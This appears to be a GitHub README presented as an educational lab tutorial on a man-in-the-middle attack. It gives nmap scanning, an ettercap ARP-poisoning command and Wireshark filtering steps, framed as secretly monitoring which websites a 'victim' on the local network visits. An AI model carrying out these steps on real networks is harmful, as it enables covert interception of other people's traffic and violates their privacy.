




# MiTM-attack
# Disclaimer:
For educational purposes only. 
# Description 
Using nmap, ettercap and wiresharp it is possible to sniff (monitor) traffic in your local net. 
This allows to secretly monitor which websites a user visits. I used my main OS (windows 11) as a victim while implementing the spyware on a virtual machine (Kali Linux). I will provide the instruction only for Linux.
# SetUp
1. Find your router ip address. In terminal insert ```ip route``` and find default ip. Usually it is 192.168.1.1
2. Insert ```sudo nmap -sn "ip of router"/24``` to show all active connected devices in the net and find IP adress of a victim.In my case my Windows OS is 192.168.1.5 
3. Insert ```sudo ettercap -T -S -i eth0 -M arp:remote /"ip of router"// /"ip of victim"//```. This puts our device between the victim and the router, allowing us to catch the traffic in between.
4. Open Wireshark
5. Under "Capture" choose the interface you are connected with. (In my case it's eth0)
6. Apply filter ```ip.addr == "ip of victim"```. Now you can see all the traffic, however because of encryption in HTTPS most of domain names are gibberish.
7. To make traffic readable click on ```file - save as - name.pcapng```
8. In your browser insert the link ```https://apackets.com``` and upload your PCAP file.
9. Click on view reports and read.

# ScreenShots
1. 
2. 
3. 
4. 
5. 